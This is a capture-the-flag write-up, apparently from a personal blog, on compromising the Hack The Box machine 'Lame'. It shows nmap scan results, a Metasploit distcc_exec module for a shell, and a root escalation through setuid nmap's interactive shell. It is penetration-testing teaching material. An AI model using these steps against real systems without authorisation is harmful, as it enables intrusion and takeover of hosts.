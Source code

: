 ```yaml
---
title:     "Hack The Box - Lame"
tags: [linux,easy,setuid,cve]
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-lame/1.png)

We are going to pwn Lame from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/1>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:
```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: remote management|WAP|printer|general purpose|power-device
Running (JUST GUESSING): Dell embedded (92%), Linksys embedded (92%), Tranzeo embedded (92%), Xerox embedded (92%), Linux 2.4.X|2.6.X (92%), Dell iDRAC 6 (92%), Raritan embedded (92%)
OS CPE: cpe:/h:dell:remote_access_card:6 cpe:/h:linksys:wet54gs5 cpe:/h:tranzeo:tr-cpq-19f cpe:/h:xerox:workcentre_pro_265 cpe:/o:linux:linux_kernel:2.4 cpe:/o:linux:linux_kernel:2.6 cpe:/o:dell:idrac6_firmware cpe:/o:linux:linux_kernel:2.6.22
Aggressive OS guesses: Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Linux 2.6.8 - 2.6.30 (92%), Dell iDRAC 6 remote access controller (Linux 2.6) (92%), Raritan Dominion PX DPXR20-20L power control unit (92%), LifeSize video conferencing system (Linux 2.4.21) (92%), Linux 2.6.23 (91%), OpenWrt Kamikaze 7.09 (Linux 2.6.22) (90%), Arris TG862G/CT cable modem (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

There is no HTTP Port open
So lets start from 1st port ```ftp``` 
Lets check whether the version has any exploit available.

Since we know the verion of ``ftp`` which is ``vsftpd 2.3.4`` from nmap scan lets search for any exploits available.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-lame/2.png)

It didn't worked, they might patched it.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-lame/3.png)

Lets check other ports.

Found an exploit on ```Port 3632``` 

> https://www.rapid7.com/db/modules/exploit/unix/misc/distcc_exec

>use exploit/unix/misc/distcc_exec

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-lame/4.png)

We got shell and found an user ``makis``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-lame/5.png)

## Privilege Escalation:

Found some SETUID.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-lame/6.png)

Lets try with ``nmap``

I searched for nmap in GTFOBins 

>https://gtfobins.github.io/gtfobins/nmap/

```
nmap --interactive
nmap> !sh
```
Using the commands

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-lame/7.png)

We got the Root!!

